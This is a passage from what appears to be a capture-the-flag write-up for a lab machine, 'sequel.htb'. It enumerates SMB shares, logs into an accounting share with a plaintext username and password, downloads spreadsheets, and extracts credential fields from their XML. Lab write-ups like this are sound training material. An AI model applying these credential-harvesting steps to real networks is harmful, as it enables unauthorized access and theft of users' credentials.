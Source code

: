 ```bash
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Accounting Department                                   READ ONLY
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
[*] Closed 1 connections                                                                                                     
```

The `Accounting Department` share seems interesting, we can have a look using `smbclient`. 

```bash
smbclient "\\\\10.10.11.51\\Accounting Department" -U sequel.htb\\rose --password KxEPkKe6R8su
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

                6367231 blocks of size 4096. 901667 blocks available
smb: \> get accounting_2024.xlsx
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (98.8 KiloBytes/sec) (average 98.8 KiloBytes/sec)
smb: \> get accounts.xlsx
getting file \accounts.xlsx of size 6780 as accounts.xlsx (66.9 KiloBytes/sec) (average 83.0 KiloBytes/sec)
```

Both xlsx files cannot be opened normally, but we can extract their content using `zip`. By looking at the content of the `accounts.xlsx` file, we find the file `xl/sharedStrings.xml` which contains a few credentials. 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24">
    <si>
        <t xml:space="preserve">First Name</t>
    </si>
    <si>
        <t xml:space="preserve">Last Name</t>
    </si>
    <si>
        <t xml:space="preserve">Email</t>
    </si>
    <si>
        <t xml:space="preserve">Username</t>
    </si>
    <si>
        <t xml:space="preserve">Password</t>
    </si>
    <si>
        <t xml:space="preserve">Angela</t>
    </si>
    <si>
        <t xml:space="preserve">Martin</t>
    </si>
    <si>
        <t xml:space="preserve">angela@sequel.htb</t>
    </si>
    <si>
```